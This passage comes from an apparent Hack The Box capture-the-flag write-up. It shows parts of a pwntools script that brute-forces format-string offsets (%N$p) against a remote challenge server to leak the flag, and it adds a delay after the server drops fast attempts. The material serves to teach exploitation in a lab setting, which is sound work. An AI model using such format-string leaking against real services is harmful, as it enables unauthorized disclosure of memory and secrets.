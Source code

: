 ```python

		# insert name
		print(s.recvuntil(b": ").decode())
		s.sendline(b"abc")
```

All that we need to do is to run it.

![](Images/RunExploitRemotely1.png)

Ok.. It doesn't works. If we look at it closely, it seems that the connection is closed and we barely do any brute-forcing. It's only the third attempt (you can see that it's currently sending %**3**$p).

It might be that the HTB server is preventing is from brute-forcing too fast. So we can simply import one more library, which is time. To set the program to delay the brute-force by 1 second.

```python
from pwn import *
import codecs
import time

def ascii_to_hex(strings):
	# to convert from ASCII to hex
	return codecs.encode(strings.encode(), "hex").decode()

def main():
	isLocal = False

	suffix_flag_format = ascii_to_hex("}")

	suffix_is_found = False
	count = 1

	final_result = ""
	flags = []
	is_within_flag_format = False

	while not suffix_is_found:
		time.sleep(1)
		if isLocal:
			# reverse the string, so it will be in little endian format
			prefix_flag_format = ascii_to_hex("flag"[::-1])
```